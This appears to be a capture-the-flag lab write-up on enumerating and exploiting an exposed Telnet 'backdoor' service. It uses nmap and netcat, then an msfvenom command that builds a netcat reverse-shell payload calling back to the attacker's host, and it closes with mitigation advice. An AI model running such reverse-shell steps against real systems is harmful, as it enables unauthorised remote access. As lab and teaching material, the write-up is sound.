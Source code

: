 # Telnet

Telnet is a network protocol used to provide a command-line interface for communication with a remote device or server. It operates over TCP/IP and allows users to log into remote systems, execute commands, and manage devices as if they were directly connected to them.

### Scope:

In this exercise, I will go through the steps of performing enumeration against a target host, and how to identiy unsecure protocols (Telnet) that may be enabled on a system and how to take advantage and exploit it. In this case, I will be using MSFvenm for the exploit. I will also be using Wireshark to see how the traffic generated looks like, and to also confim that the connection has been established. 

### Tools and Technology:
Linux, MSFvenom, and Wireshark

## Enumeration:

To get started, I used nmap to scan against the target host:

```
nmap 10.10.169.221 -Pn -sS -T5 -p- -vvv
```

![Pasted image 20240918162959](https://github.com/user-attachments/assets/d8c51f70-2762-4bf5-bcfa-27562b37045f)

Based on the output, I can see that port 8012 is open. I then tested the open port using Netcat:

```
nc 10.10.169.221 8012
```

![Pasted image 20240918163707](https://github.com/user-attachments/assets/06e2d5ee-9349-4742-8649-26bdea9d4057)

So far, based on the information gathered using nmap and Netcat, I know that following:

+ It looks like the telnet service is running but on a non-defulat port (8012)
+ The service is name "Skidy's Backdoor"
+ Given the name above, its possible that a user exists with the name "Skidy"

## Command Execution:

Given the output above, I am able to execute commands on the remote target host. To test, I used the ping command:

```
ping 10.10.8.55 -c1
```

![Pasted image 20240918154742](https://github.com/user-attachments/assets/beb4522a-3e51-47f4-aef0-faa80b60ede3)

Looking at Wireshark, I was able to get an ICMP response from the remote server, which means that I was able to execute the command successfully:

![Pasted image 20240918163559](https://github.com/user-attachments/assets/7768d463-417e-4949-bc1d-1c6cd9c6e2d7)

## MSFvenom

MSFVenom is a command-line tool that is part of the Metasploit Framework. MSFVenom can generate a wide variety of payloads, which are pieces of code that exploit vulnerabilities in target systems.

![Pasted image 20240918172441](https://github.com/user-attachments/assets/bc914b81-25bd-41be-8ac4-941158e72d4a)

Next, I generated a reverse shell payload using msfvenom:

![Pasted image 20240918162054](https://github.com/user-attachments/assets/f3b72690-3c87-471b-8ef4-90033966a292)

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.8.55 lport=4444 R
```

This is a breakdown of the command I am using:

+ -p = payload
+ lhost = our local host IP address (this is your machine's IP address)
+ lport = the port to listen on (this is the port on your machine)
+ R = export the payload in raw format

![Pasted image 20240918155327](https://github.com/user-attachments/assets/e1ddfd39-2322-496b-8f9f-3bba3f6a930e)

Executing the reverse shell on the remote system:

![Pasted image 20240918161932](https://github.com/user-attachments/assets/1802b354-d070-4f61-8b41-8e91471a9ae9)

Next I needed to create a listening port:

![Pasted image 20240918163517](https://github.com/user-attachments/assets/29861630-18e5-41c6-aa39-4266f5d0da93)

Looking at Wireshark, I can see taht the connection was established:

![Pasted image 20240918163114](https://github.com/user-attachments/assets/79363012-b260-48c8-ac5a-3bbb1dea2793)

This is a closer look at one of the packets:

![Pasted image 20240918163435](https://github.com/user-attachments/assets/432a3a52-8061-490d-8bea-f9f688c129b0)

### Sumamry:

In this exercise, I was able to identify the telnet service was running on the target host and exploit it using MSFvenom. For mitigation against these types of attacks, it's important to ensure that unsecure protocols such as Telnet, are disabled. If needed, you can replace Telnet with SSH for secure encrypted communications. Its also important to conduct regular security audits and vulnerability assessments to identify and mitigate potential risks associated with Telnet and other services that may be enabled/running as part of a misconfiguration. 

